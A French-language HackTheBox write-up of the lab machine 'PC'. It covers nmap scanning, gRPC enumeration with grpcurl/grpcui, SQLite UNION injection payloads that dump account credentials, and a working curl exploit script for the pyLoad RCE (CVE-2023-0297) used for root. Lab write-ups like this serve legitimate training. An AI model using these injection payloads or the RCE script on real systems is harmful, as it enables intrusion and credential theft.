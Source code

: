 ```yaml
---
title: PC - Easy (Linux)
categories:
- HackTheBox
- Write-up
tags:
- htb
- hack-the-box
- web
- vulnérabilités
- gRPC
---
```

## Nmap

Nmap donne simple deux services : ssh et un service inconnu , 50051.

```bash
┌──(kali㉿kali)-[/media/sf_shared_folder_vm2/HTB/PC]
└─$ sudo nmap -p- -sV -sC 10.129.176.82
[sudo] password for kali:
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-14 10:37 EDT
Nmap scan report for 10.129.176.82
Host is up (0.021s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 91bf44edea1e3224301f532cea71e5ef (RSA)
|   256 8486a6e204abdff71d456ccf395809de (ECDSA)
|_  256 1aa89572515e8e3cf180f542fd0a281c (ED25519)
50051/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port50051-TCP:V=7.93%I=7%D=6/14%Time=6489D128%P=x86_64-pc-linux-gnu%r(N
SF:ULL,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\x0
SF:6\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(Generic
SF:Lines,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\
SF:x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(GetRe
SF:quest,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\
SF:x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(HTTPO
SF:ptions,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0
SF:\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(RTSP
SF:Request,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\
SF:0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(RPC
SF:Check,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\
SF:x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(DNSVe
SF:rsionBindReqTCP,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\
SF:xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0
SF:")%r(DNSStatusRequestTCP,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0
SF:\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\
SF:0\0\?\0\0")%r(Help,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0
SF:\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\
SF:0\0")%r(SSLSessionReq,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x0
SF:5\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0
SF:\?\0\0")%r(TerminalServerCookie,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xf
SF:f\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0
SF:\0\0\0\0\0\?\0\0")%r(TLSSessionReq,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?
SF:\xff\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x0
SF:8\0\0\0\0\0\0\?\0\0")%r(Kerberos,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\x
SF:ff\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\
SF:0\0\0\0\0\0\?\0\0")%r(SMBProgNeg,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\x
SF:ff\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\
SF:0\0\0\0\0\0\?\0\0")%r(X11Probe,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff
SF:\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\
SF:0\0\0\0\0\?\0\0");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 161.75 seconds
```

Il s'avère que le port 50051 est un port pour gRPC.

### gRPC, qu'est-ce que c'est ?

gRPC est un framework de google qui vise à établir des communications entre divers services via le protocole http2. Il est utile pour mettre en place de microservices, etc.

### Le site ?

Il n'y a pas de site atteignable en tant que tel. Il faut donc trouver un moyen de faire des requêtes dessus.

Pour ce faire, on va utiliser grpcurl, un outil semblable à curl, mais pour gRPC.

https://github.com/fullstorydev/grpcurl

### Énumération

La liste des services exposés via réflection (un peu comme une introspection pour graphQl)

```bash
┌──(kali㉿kali)-[~]
└─$ grpcurl -plaintext 10.129.38.93:50051 list
SimpleApp
grpc.reflection.v1alpha.ServerReflection
```


On a donc un service : SimpleApp.

Liste les méthodes disponibles pour le service :

```bash
┌──(kali㉿kali)-[~]
└─$ grpcurl -plaintext 10.129.38.93:50051 list SimpleApp
SimpleApp.LoginUser
SimpleApp.RegisterUser
SimpleApp.getInfo
```

Le plus simple cependant est d'utiliser une version avec un GUI, via grpcui.

### grpcui

grpcui est un outil vraiment très pratique qui va nous permettre d'avoir une interface web afin de faire nos requêtes. Ici, nul besoin d'énumérer via la réflection, les méthodes sont directement accessibles avec les données attendues pour les requêtes post en json. On peut également rajouter des headers.

On va pouvoir créer un compte si l'on veut. On peut également tester "admin:admin" et ça fonctionne.

En retour nous aurons le droit à un token.

On peut utiliser ce token pour getInfos.

### getInfo

En testant on se rend compte que getInfos est vulnérable à une injection sqlite dans le champ id.

On peut essayer d'extraire des infos de la base de données.

```sql
12 UNION SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'
```

Réponse :

```json
{
  "message": "accounts,messages"
}
```

Munis de ces infos, on va essayer d'énumérer la table accounts :

```sql
12 UNION SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name='accounts'
```

Réponse :

```json
{
  "message": "CREATE TABLE \"accounts\" (\n\tusername TEXT UNIQUE,\n\tpassword TEXT\n)"
}
```

On va ensuite essayer d'extraire les username et password de la table :

```sql
12 UNION SELECT group_concat(username) FROM accounts
```

Réponse :

```json
{
  "message": "admin,sau"
}
```

Et enfin les password :

```json
{
  "message": "admin,HereIsYourPassWord1431"
}
```

Mots de passe :

admin:admin
sau:HereIsYourPassWord1431

### User

```bash
ssh sau@10.129.38.93
```

Avec le mot de passe ci-dessus. Et voilà!

### Élévation de privilèges


On voit qu'il y a pyload d'installé.

Cette version est vulnérable à une RCE.

https://attackerkb.com/topics/4G0gkUrtoR/cve-2023-0297

Payload :

```bash
#!/bin/bash

curl -i -s -k -X POST -H "Host: 127.0.0.1:8000" -H "Content-type: Application/x-www-form-urlencoded" -d "jk=pyimport%20os;os.system('$1');f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa" http://127.0.0.1:8000/flash/addcrypted2
```

```bash
./exploit.sh "cat /root/root.txt > /tmp/root.txt"
```

